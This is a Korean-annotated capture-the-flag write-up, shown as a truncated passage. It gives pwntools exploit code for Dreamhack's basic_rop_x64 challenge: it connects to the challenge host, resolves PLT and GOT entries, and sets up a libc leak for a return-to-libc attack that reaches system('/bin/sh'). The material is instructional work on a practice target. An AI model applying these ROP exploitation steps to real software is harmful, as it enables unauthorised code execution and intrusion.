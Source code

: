 ``` python

로컬에서 테스트하면 현재 로컬시스템인 칼리리눅스의 libc.so.6을 이용하기때문에  정확한 주소가 구해지지 않는다.
libc base 주소는 아래 3바이트가 0으로 셋팅된다.
로컬에서 올바르게 테스트하기 위해서는 도커 파일을 이용해 컨테이너를 생성하고 테스트 해야 한다.
'''
slog("read", read)
slog("libc base", lb)
slog("system", system)
slog("/bin/sh", binsh)
```


#### Stage 2

``` python
# 익스플로잇 개발할 때 프로세스 실행, 소켓 통신, 페이로드 제작, ROP 체인 생성 등을 편하게 해 준다.
from pwn import *

# pwntools 의 success() 는 초록색으로 로그를 출력해 줌.
def slog(symbol, addr):
    return success(symbol + ": " + hex(addr))

# 익스플로잇 실행 중에 송수신하는 패킷, ROP 체인, 페이로드 길이 등을 모두 출력함.
context.log_level = 'debug'

'''
로컬에서 바이너리(./basic_rop_x64)를 직접 실행하고 그 프로세스와 상호작용할 수 있게 함.
p 객체는 이 프로세스와의 입출력을 담당(예: p.sendline(), p.recvuntil())

바이너리를 ELF 객체로 로드
e.symbols["main"], e.got["puts"], e.plt["system"] 같은 심볼 / 주소 접근 가능
e 는 프로그램 자체의 ELF 정보 저장

공격대상이 사용하는 libc 라이브러리 파일을 로드능
익스플로잇에서 system, str_bin_sh 등의 libc 심볼 주소를 얻기 위해 필요

ROP 객체 생성
주어진 ELF(e)에서 ROP 가젯ㅇ르 자동으로 찾아줌.
r.call("puts", [addr])처럼 함수 호출용 ROP 체인을 쉽게 생성 가
'''
# p = process("./basic_rop_x64")
p = remote("host8.dreamhack.games", 17006)
e = ELF("./basic_rop_x64")
libc = ELF("./libc.so.6", checksec=False)
r = ROP(e)

'''
실제 Return to libc 익스플로잇 준비 과정
plt(Procedure Linkage Table): 라이브러리 함수로 점프하는 트램펄린 코드 위치
got(Global Offset Table): 실제 libc 함수 주소가 저장되는 테이블
main : 프로그램의 main 함수 주소. -> 1차 페이로드 후 다시 main 으로 돌와와 2차 공격을 준비하는데 쓰임.
'''
read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]
main = e.symbols["main"]

'''
로드한 libc.so.6 에서 필요한 심볼들의 오프셋을 가져옴.
나중에 libc base 주소를 알아내면:
    libc_base = leaked_read - read_offset
    system_addr = libc_base + system_offset
    binsh_addr = libc_base + sh
```